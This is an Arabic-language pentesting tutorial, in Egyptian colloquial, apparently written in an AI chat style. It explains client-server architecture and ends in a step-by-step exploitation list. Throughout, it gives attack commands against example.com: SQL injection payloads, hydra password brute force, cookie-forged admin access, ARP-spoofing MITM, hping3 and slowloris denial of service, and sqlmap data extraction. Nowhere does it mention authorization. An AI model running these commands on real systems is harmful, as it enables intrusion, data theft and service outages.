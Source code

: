 تمام، هنشرح **عمارة العميل والسيرفر (Client-Server Architecture)** بنفس الطريقة السابقة: شرح مفصل وعملي مع أكواد وأوامر، مع تركيز على اختبار الاختراق (Pentesting)، وبعد كل جزء هخلّص بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال.

---

### **1. شرح عمارة العميل والسيرفر (Client-Server Architecture) بالتفصيل:**

#### **أ. المفهوم الأساسي (What It Is):**
- العمارة دي نظام بيعتمد على إن فيه طرفين:
  - **العميل (Client):** جهازك أو المتصفح اللي بتستخدمه (زي Chrome أو أي برنامج).
  - **السيرفر (Server):** الكمبيوتر القوي اللي بيخزن البيانات ويرد على طلباتك.
- العميل بيبعت طلب (Request)، والسيرفر بيرد (Response).

- **مثال عملي:**
  - لما تفتح موقع زي `example.com`:
    - المتصفح (Client) بيبعت: `GET / HTTP/1.1`.
    - السيرفر بيرد: `HTTP/1.1 200 OK` مع الصفحة.

- **جانب عملي للبينتست:**
  - جرب تكتشف السيرفر:
    - `curl -I http://example.com` (يشوف الرؤوس ونوع السيرفر).
  - استخدم `nmap`:
    - `nmap -sV example.com` (يكشف الخدمات والإصدارات على السيرفر).

- **خلاصة بالعامية:**
  - "الدنيا هنا زي المطعم: إنت العميل بتطلب الأكل، والسيرفر هو الطباخ، لو عارف ازاي تفهم الطباخ هتخليه يديك حاجة زيادة."

---

#### **ب. أنواع العملاء والسيرفرات (Types of Clients and Servers):**
- **العملاء:**
  - **Thin Client:** متصفح عادي بيعتمد على السيرفر في كل حاجة.
  - **Thick Client:** برنامج على جهازك بيعمل شغل لوحده (زي تطبيقات الديسكتوب).
- **السيرفرات:**
  - **Web Server:** زي Apache أو Nginx (بيخدم صفحات ويب).
  - **Database Server:** زي MySQL (بيخزن بيانات).
  - **Application Server:** بيشغل منطق البرامج.

- **مثال عملي:**
  - Web Server:
    - `curl http://example.com` (يجيبلك صفحة HTML).
  - Database Server (لو مكشوف):
    - `mysql -h example.com -u root -p` (جرب تتصل لو البورت 3306 مفتوح).

- **جانب عملي للبينتست:**
  - لو Web Server:
    - `nikto -h http://example.com` (سكان لثغرات الويب).
  - لو Database Server:
    - `nmap -p 3306 example.com` (شوف لو مفتوح)، ثم جرب:
    - `hydra -l root -P /wordlist.txt example.com mysql` (هجوم كلمة سر).
  - Thick Client:
    - لو تطبيق، استخدم `strings` أو `IDA Pro` عشان تحلله وتكتشف APIs مخفية.

- **خلاصة بالعامية:**
  - "فيه عملاء خفاف وفيه تقال، وكل سيرفر ليه شغلته، لو عرفت مين بيتكلم مع مين هتعرف تضرب مين."

---

#### **ج. كيفية التواصل (Communication Process):**
- التواصل بيحصل كده:
  1. العميل بيبعت طلب عبر بروتوكول (زي HTTP).
  2. السيرفر بيستقبل الطلب، بيعالجه (زي جلب بيانات من قاعدة بيانات).
  3. السيرفر بيرد بالنتيجة.

- **مثال عملي:**
  - طلب تسجيل دخول:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded

    username=admin&password=123
    ```
  - رد السيرفر:
    ```
    HTTP/1.1 200 OK
    Set-Cookie: session=xyz789
    ```

- **جانب عملي للبينتست:**
  - جرب تلعب في الطلب:
    - `curl -X POST -d "username=admin' OR 1=1 --" http://example.com/login` (SQL Injection).
  - لو فيه كوكيز:
    - `curl -b "session=xyz789" http://example.com/admin` (تجاوز الصلاحيات).
  - مراقبة التواصل:
    - `tcpdump -i any host example.com -w login.pcap` (سجل كل البيانات).

- **خلاصة بالعامية:**
  - "التواصل ده زي المكالمة، لو سمعت الكلام كويس أو زوّرته، هتتحكم في اللي بيحصل."

---

#### **د. المميزات والعيوب (Advantages & Disadvantages):**
- **المميزات:**
  - مركزية البيانات (كل حاجة ع السيرفر).
  - سهولة التحديث (غير السيرفر بس).
- **العيوب:**
  - لو السيرفر وقع، الكل بيوقع.
  - ضغط كبير على السيرفر لو العملاء كتير.

- **مثال عملي:**
  - لو السيرفر بطيء:
    - `ab -n 1000 -c 100 http://example.com/` (اختبار تحمل بـ Apache Benchmark).
  - لو وقع:
    - `hping3 -S -p 80 -c 5000 example.com` (DoS لتوقيفه).

- **جانب عملي للبينتست:**
  - استغل الضغط:
    - `slowloris http://example.com` (هجوم بطيء يشل السيرفر).
  - لو فيه نقطة مركزية:
    - جرب تكتشف قاعدة البيانات: `sqlmap -u http://example.com/login --forms` (SQLi).

- **خلاصة بالعامية:**
  - "النظام ده حلو بس لو السيرفر لعب فيها، الكل هيترمي في الشارع، ودي فرصتك كبينتستر."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف السيرفر:**
   - `nmap -sV -p- example.com` (كشف الخدمات والبورتات).
   - `curl -I http://example.com | grep Server` (نوع السيرفر).

2. **حلل العميل:**
   - لو ويب: `nikto -h http://example.com` (ثغرات ويب).
   - لو تطبيق: افتحه بـ `Burp Suite` أو `Ghidra` (تحليل APIs).

3. **هاجم التواصل:**
   - `curl -X POST -d "user=admin&pass=1' OR '1'='1" http://example.com/login` (SQLi).
   - `arpspoof -i eth0 -t 192.168.1.1 192.168.1.100` (MITM للتجسس).

4. **اضغط على السيرفر:**
   - `hping3 -S -p 80 -c 10000 example.com` (DoS).
   - `slowloris -p 80 example.com` (هجوم بطيء).

5. **استغل نقاط الضعف:**
   - لو قاعدة بيانات: `sqlmap -u http://example.com/?id=1 --dbs` (استخراج بيانات).
   - لو كوكيز: `curl -b "admin=true" http://example.com/admin` (تجاوز).

---

### **خلاصة نهائية بالعامية:**
- "العميل والسيرفر زي الزبون والمحل، لو عرفت تفهم ازاي بيتكلموا وتلعب في النص، هتخلّي السيرفر يديك كل حاجة أو ينهار، بس خلّيك دماغ!"